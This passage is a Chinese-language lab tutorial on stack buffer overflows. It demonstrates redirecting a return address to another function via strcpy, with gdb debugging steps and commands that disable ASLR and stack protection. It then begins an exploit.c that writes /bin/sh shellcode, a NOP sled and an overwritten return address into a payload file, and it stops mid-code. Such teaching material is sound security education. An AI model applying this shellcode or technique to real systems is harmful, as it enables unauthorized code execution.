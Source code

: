 攻击原理：上述程序中buffer数组大小为32字节，而buff数组大小为16字节。由于strcpy函数在进行复制时不进行检查，在复制过程会对buff数组邻界区域进行覆盖（这里为buff数组上方的高地址内存）。通过对C程序运行时结构的了解，在32位环境下fun函数的返回地址恰好被ABCD覆盖，如果我们此时将ABCD修改为fun1函数的地址即可成功跳转从而攻击成功。

关闭地址随机化功能，运行代码并使用后gdb进行调试确定地址：

```shell
sudo sysctl -w kernel.randomize_va_space=0
gcc -Wall -g -o buf buf.c -fno-stack-protector -z execstack -m32
gdb buf -q
```

使用`disas fun`查看fun函数汇编代码，可以看到fun函数在偏移量为50的地方进行返回，我们在这个位置设置断点。

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131018251.png">

在断点出开始执行，先打印出当前esp指向的位置，为0x44434241（恰好为ABCD），再执行下一步，可以看到随即提示段错误，并打印报错信息找不到地址0x44434241。

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131021436.png">

查看fun1函数的汇编代码，可以看到首地址为0x565561ed。

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131024079.png">

将buffer字符串中的ABCD修改为fun1函数的首地址，即可发起攻击。

```c
char buffer[] = "01234567890123456789========\xed\x61\x55\x56";
```

<img src="https://cdn.jsdelivr.net/gh/peng-yq/Gallery/img/202304131026659.png">

| ASLR | 栈保护机制 | 栈可执行 | 栈不可执行 | 攻击是否成功 |
| ---- | ---------- | -------- | ---------- | ------------ |
| 否   | 否         | 是       | 否         | 是           |
| 否   | 否         | 否       | 是         | 否           |
| 是   | 是         | 否       | 是         | 否           |

## 利用缓冲区溢出开启shellcode

示例代码如下：

```c
/* exploit.c */
/* A program that creates a file containing code for launching shell*/

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[] = "\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */

    strcpy(buffer+0x18,"\xfb\xce\xff\xff");
    strcpy(buffer + 100, shellcode);   //将shellcode拷贝至buffer，偏移量设为了 100

    /* Save the contents to the file "badfile" */
```